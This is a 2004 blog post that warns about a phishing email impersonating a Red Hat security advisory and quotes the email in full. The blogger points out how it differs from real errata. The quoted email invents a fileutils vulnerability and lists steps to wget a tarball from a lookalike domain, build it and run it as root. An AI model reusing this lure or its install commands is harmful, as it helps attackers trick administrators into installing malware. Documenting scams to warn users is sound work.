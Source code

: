 ```yaml
---
id: 89
title: RedHat Scammers
date: 2004-10-28T09:49:53+00:00
author: Matthew Schick
layout: single
guid: http://www.excentral.org/archives/2004/10/28/redhat-scammers/
permalink: /archives/2004/10/28/redhat-scammers
categories:
  - General
---
```

I know this is old news, but I did get this phishy email regarding the fileutils
'vulnerability' on RedHat.  Since this has come out there's been all sorts of
doom-n-gloom articles with titles such as [Red Hat email scam: Hard target or
harbinger for Linux?]" but, as you can see below, this email looks nothing like
any of the official errata reports from RH.  It also asks users to download a
tar.gz file instead of simply connecting to RHN, and the email isn't signed with
the RH gpg key.  If you fell for this, you don't need to be an admin... Sorry.

![RH Logo]

Original issue date: October 20, 2004
Last revised: October 20, 2004
Source: RedHat

A complete revision history is at the end of this file.

Dear RedHat user,

Redhat found a vulnerability in fileutils (ls and mkdir), that could allow a remote attacker to execute arbitrary code with root privileges. Some of the affected linux distributions include RedHat 7.2, RedHat 7.3, RedHat 8.0, RedHat 9.0, Fedora CORE 1, Fedora CORE 2 and not only. It is known that *BSD and Solaris platforms are NOT affected.

The RedHat Security Team strongly advises you to immediately apply the<strong> fileutils-1.0.6 patch</strong>. This is a critical-critical update that you must make by following these steps:
<ul>
	<li>First download the patch from the Security RedHat mirror: <strong><em>wget www.fedora-redhat.com/fileutils-1.0.6.patch.tar.gz</em></strong></li>
	<li>Untar the patch:<em><strong> tar zxvf fileutils-1.0.6.patch.tar.gz</strong></em></li>
	<li><em><strong>cd fileutils-1.0.6.patch</strong></em></li>
	<li><em><strong>make</strong></em></li>
	<li><em><strong>./inst</strong></em></li>
</ul>
Again, please apply this patch as soon as possible or you risk your system and others` to be compromised.

Thank you for your prompt attention to this serious matter,

RedHat Security Team.
<p class="style1">Copyright Â© 2004 Red Hat, Inc. All rights reserved.</p>

[Red Hat email scam: Hard target or harbinger for Linux?]: http://www.newsforge.com/article.pl?sid=04/10/27/0351205
[RH Logo]: http://www.redhat.com/g/chrome/logo_rh_home.png
